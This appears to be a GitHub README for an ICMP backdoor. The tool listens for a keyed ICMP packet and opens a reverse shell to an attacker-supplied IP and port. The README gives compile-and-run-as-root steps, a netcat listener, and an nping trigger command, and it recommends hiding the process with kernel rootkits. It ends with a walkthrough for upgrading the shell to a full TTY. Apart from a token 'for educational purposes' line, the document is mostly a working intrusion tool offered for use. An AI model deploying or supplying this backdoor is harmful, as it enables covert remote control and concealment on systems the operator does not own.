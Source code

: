 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) or [libprocesshider](https://github.com/gianlucaborello/libprocesshider) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

If you don't want to use `nping` to trigger the reverse shell, you can use the `live-off-the-land` version, which just requires `ping` and `nc`.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ sudo ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	        backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string <secret-key> <attacker-ip> <port>'
```
Now you have your shell!
```
$ nc -l -p 4096
/bin/bash
ls
bin
boot
dev
etc
home
keybase
lib
lib64
lightdm
lost+found
media
mnt
nix
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

# Adding TTY
If you want to make your shell actually usable with TTY, here's my process. Or alternatively, check out [these](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) [guides](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) on upgrading your shell.

First, on your host machine, ensure you're using bash:
```
$ bash
$ 
```
Then initiate your reverse shell:
```
$ nc -l -p 4096
/bin/bash
ls
bin
boot
dev
etc
...
```
Then use python to get a pseudo-terminal:
```
/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
[root@user /]#
```
From here exit out of the terminal and do:
```
/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
[root@user /]#
Ctrl-Z
$ stty raw -echo
$ fg
```
From here your terminal will be pretty messed up:
```
nc -lvp 4096
            [cursor somewhere here]
```
Reset the terminal via the command `reset`. You might not be able to press `enter` - if you can't, use `Ctrl-J` instead.
```
nc -lvp 4096
            reset
...
[root@user /]#
```
From here, do all the basic terminal setting stuff:
```
[root@user /]# export SHELL=bash
[root@user /]# export TERM=xterm-256color
[root@user /]# stty rows <num> columns <cols>
```
Then you should be done! Vim/nano/etc should work decent from here.
